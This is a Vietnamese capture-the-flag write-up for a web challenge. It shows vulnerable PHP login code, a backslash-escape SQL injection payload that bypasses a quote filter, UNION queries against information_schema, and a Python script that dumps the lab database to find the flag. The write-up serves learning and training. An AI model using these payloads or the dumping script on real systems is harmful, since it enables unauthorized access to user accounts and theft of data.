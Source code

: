 # [Chung Kết] Web: Cửa hàng đồ chơi Quận 4

## Cái gì đếy?

![chall](./images/chall.png)

Đây là một bài SQLi khá là cơ bản nhưng mà không hiểu vì lí do gì mình lại stuck khá lâu ở bài này. Có lẽ mình đã già .__.

## Phân tếch

Khi mình vừa bấm vào link thì sẽ có một cái trang login spot ra trông như thế lày:

![login](./images/login.png)

Các bạn để ý thì sẽ thấy có một cái button `Xem mã nguồn` sẽ dẫn mình đến source code của phần login.

```php
<?php
    if (isset($_GET['source'])) { 
        highlight_file(__FILE__); 
        die(); 
    }
    include("config.php");
    session_start();
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        try {
            // Vậy chắc an toàn rồi!
            if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

            $sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
        } catch(PDOException $e) {
            $message =  "Ôi không, có gì đó sai sai. Hãy thử lại vào lúc khác nha 😅";
        }
    }
    if (isset($_SESSION['username']))
        die(header("location: shopping.php"));
?> 

```

Ở đây, mình đetéct được một đoạn vunerable code:

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
                die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
```

Trông có vẻ như `preg_match` chỉ filter dấu `'` thôi nên mọi chuyện khá ez xD.

## Solútion

### Bypass login fỏm

Quay lại đoạn check login phía bên trên, khi mình thử nhập tên là `admin` và mật khẩu là `12345` thì đoạn query sẽ trông như sau:

```php
select username from users where username='admin' and password='12345'
```

Vì không thể dùng `'` như bình thường được nên mình dùng dấu `\` để escape luôn dấu `'` ngay phần `username`, sau khi nhập tên là `\` thì đoạn query sẽ trở thành như thế này:

```php
select username from users where username='\' and password='12345'
```

Bạn thấy chứ? Đoạn mật khẩu `12345` mình vừa nhập đã chui ra khỏi string. Từ đó mình có đoạn injection như sau:

```sql
username: \
password: or username="admin"#
```

Bùm, không có flag :<

![shop](./images/shop.jpg)

### Blind SQL Injection

Vì không thấy flag nên mình đoán là flag sẽ là password của `admin` hoặc là username/password của một user nào đó. Dự là như vậy nên mình dùng `Blind SQLi` để bruteforce password.

> Chả hiểu sao khúc này mình lại đi brutefỏce trong khi có thể dùng `union select` =))

Sau một hồi loay hoay thì mình nhận được password của `admin` chính là `admin` và vẫn chưa thấy flag :>

![dog](./images/dog.jpg)

### Diging into database

Có vẻ như dòng chữ `Xin chào admin.` kia là nơi trả về kết quả của đoạn query hồi nãy. Thử query `version()` thì mình nhận được:

```sql
union select version()#
```

![version](./images/version.jpg)

`8.0.26`? Là version của MySQL nên mình có thể dùng hàm `group_concat` được.
Mình quyết định tìm kiếm trong các table khác và nhận được một đống table có vẻ như không liên quan.

```sql
union select group_concat(table_name) from information_schema.tables#
```

![tables](./images/tables.jpg)

Mình không biết dùng `sqlmap` nên chỉ thử được một vài table. Nhiều quá nên mình viết hẳn một cái script để dump luôn database. Sau khi dump xong mình vẫn không tìm thấy flag ?? :) ??

![cat](./images/cat.jpg)

Và mình rơi vào betak.

### Database nào cơ????

![hint](./images/hint.png)

Sau khi nhận được hint từ anh `nyancat` thì mình mới nhớ ra trong một hệ quản trị CSDL có nhiều database khác nhau và mình vừa tìm flag ở trong một cái database lạ hoắc .__. *sosadboiz...*

Oce let's try it.

```sql
union select database()#
```

Seem good ;3

![db](./images/db.jpg)

Mình dùng luôn đoạn script lúc nãy để dump cái `myDB` này, mình đã quá mệt mỏi rồi :<<

```python
import requests
import json
import re

URL = 'http://shop.kid.cyberjutsu-lab.tech/login.php'

def query(cmd):
    r = requests.post(URL, data={
        'username': '\\',
        'password': cmd + '#'
    })
    try:
        return re.findall('Xin chào (.*).\\r', r.text)[0].split(',')
    except:
        return None

def list2dict(a):
    if a:
        return { x: None for x in a }
    else:
        return None

db = list2dict(query('union select group_concat(table_name) from information_schema.tables where table_schema=database()'))

for table_name in db.keys():
    print('querying:', table_name)
    columns = list2dict(query(f'union select group_concat(column_name) from information_schema.columns where table_name="{table_name}"'))
    db[table_name] = columns

    for column_name in columns:
        print(f'querying: {table_name}.{column_name}')
        values = query(f'union select group_concat({column_name}) from {table_name}')
        db[table_name][column_name] = values

with open('db.json', 'w') as w:
    w.write(json.dumps(db, indent=4, sort_keys=True))
```

Mở file `db.json` lên và mình tìm thấy flag... ***p r 0 v j p***

```json
{
    "authors": {
        "added": null,
        "birthdate": null,
        "email": null,
        "first_name": null,
        "id": null,
        "last_name": null
    },
    "flag_304ad593": {
        "flag_3e53dc": [
            "CTF{pleAs3_doNt_r3invent_th3_whe3L}"
        ]
    },
```

Flag:

```
CTF{pleAs3_doNt_r3invent_th3_whe3L}
```

That's end. Hy vọng bạn thích bài viết này của mình :]]
